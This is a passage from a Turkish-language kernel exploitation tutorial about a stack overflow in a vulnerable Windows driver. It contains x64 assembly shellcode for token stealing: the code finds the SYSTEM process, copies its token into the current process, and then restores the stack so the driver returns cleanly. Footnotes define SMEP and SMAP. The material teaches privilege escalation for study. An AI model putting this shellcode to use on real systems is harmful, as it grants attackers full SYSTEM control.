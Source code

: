 ```assembly
    cmp rdx, SYSTEM_PID                 ; 4 mü?
    jz bulundu                          ; eveeet!
    mov	rcx, [rcx]                      ; değil, rcx = ListEntry->Next
    jmp sistemi_bul                     ; yukarı kaç
bulundu:
    mov rax, [rcx + TOKEN_OFFSET]       ; Aha! Sistem geldi, Token adresini al
    and al, 0xf0                        ; İşimize yaramayan son 4 biti sıfırla (0xf0 = 1111 0000)
bizi_yukselt:
    mov [r11 + CURRENTPROC_OFFSET], rax ; Bizim işlemin "Token"inin yerine koy
    ...
    ...
```

İşte "*shellcode*"umuz bu kadar. Amma velakin, bu "*shellcode*"u kullanırsak sistem yine mavi ekran verecektir. Peki neden? Çünkü taşma olduktan hatırlayın ne oldu, kod dönmesi gereken yere değil, bizim kodumuza dallandı. E şimdi o zaman tekrar geldiği yere geri dönmesi gerekiyor. Normal şartlar altında eğer biz yığını bozmasaydık, uygulama `TriggerStackOverflow` fonksiyonunu çağıracak, bu fonksiyondan çıkarken de çağırıldığı yere geri dönecekti fakat biz artık yığının bozduğumuz için kodun geri dönmesini sağlayacak kısma hiçbir zaman erişemiyor. Bu nedenle biz sanki geri dönmüş hissini oluşturmamız gerekiyor. Aşağıda fonksiyon geri döndüğünde ne tür bir komutun çalışacağını görüyorsunuz:

![](/files/donulecekyer.jpg)

Hmm. Demek ki sadece yığında ufak bir temizlik yapıp (0x28 bayt kadar), sonra `ret` komutunu çalıştırırsak, sürücü buraya geldiği yere geri dönüp çalışmaya devam edecek. O halde "*shellcode*"'umuzun sonuna gelmesi gereken son parça da şöyle:

```assembly
cikis:
    pop rax                             ; rax yazmacini geri al
    add rsp, 28h                        ; Çalışma bozulmasın diye yığını düzelt
    ret                                 ; Geldiğin yere geri dön
```


[^1]: "*Exploit*" kelimesi için Türkçe ne kullanabiliriz? Şahsen Sömürgeç kelimesini öneriyorum, başka fikri olan?
[^2]: **SMEP** (Supervisor Mode Execution Prevention) - Çekirdek modundaki bir kodun, kullanıcı modundaki bir alanda kod çalıştırmasını engelleyen güvenlik mekanizması.
[^3]: **SMAP** (Supervisor Mode Access Prevention) - Çekirdek modundaki bir kodun, kullanıcı modundaki bir alandaki veriye direkt olarak erişimi engelleyen güvenlik mekanizması.
[^4]: "*Shellcode*" kelimesi için Türkçe ne kullanabiliriz? Ağırlıklı olarak "Kabuk Kod" kelimesinin kullanıldığını sanıyorum fakat bana çok düz bir çeviri gibi geliyor.
[^5]: **Parametre**, fonksiyonun imzasında bulunan elemanlardan bahsedilirken kullanılır, **Argüman** ise bu fonksiyon çağırılırken parametrelere verilen değerlerden bahsedilirken kullanılır.